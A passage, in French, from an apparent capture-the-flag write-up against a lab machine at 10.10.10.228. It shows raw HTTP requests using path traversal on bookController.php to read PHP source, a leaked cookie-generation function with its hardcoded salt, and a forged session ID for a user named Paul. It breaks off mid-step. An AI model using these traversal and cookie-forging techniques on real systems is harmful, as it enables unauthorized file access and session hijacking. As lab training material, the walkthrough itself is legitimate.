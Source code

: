 
```sh
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sj7ktf2u4g6a18doo77vvkl929
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
book=../index.php&method=1
```


Trouvez la ``secret key`` pour les tokens et php pour savoir comment les cookies sont créés en regardant les fichiers pour le portal sign. Lisez le code du cookie.
Après l'avoir lu, nous pouvons en conclure que le ``phpsessid`` est créé par la chaîne de ``hachage md5`` qui a une lettre aléatoire du nom de l'utilisateur.


```sh
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sj7ktf2u4g6a18doo77vvkl929
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
book=../portal/cookie.php&method=1
```

Nous obtenons ceci en réponse :


```sh
"<?php\r\n/**\r\n * @param string $username  Username requesting session cookie\r\n * \r\n * @return string $session_cookie Returns the generated cookie\r\n * \r\n * @devteam\r\n * Please DO NOT use default PHPSESSID; our security team says they are predictable.\r\n * CHANGE SECOND PART OF MD5 KEY EVERY WEEK\r\n * */\r\nfunction makesession($username){\r\n    $max = strlen($username) - 1;\r\n    $seed = rand(0, $max);\r\n    $key = "s4lTystR1nG".$username[$seed]."(!528./9890";\r\n    $session_cookie = $username.md5($key);\r\n\r\n    return $session_cookie;\r\n}"
```

Nous obtenons le ``PHPSessionID`` de Paul.


```sh
paul47200b180ccd6835d25d034eeb6e6390
```

Obtenez la secret key en envoyant une demande de request :
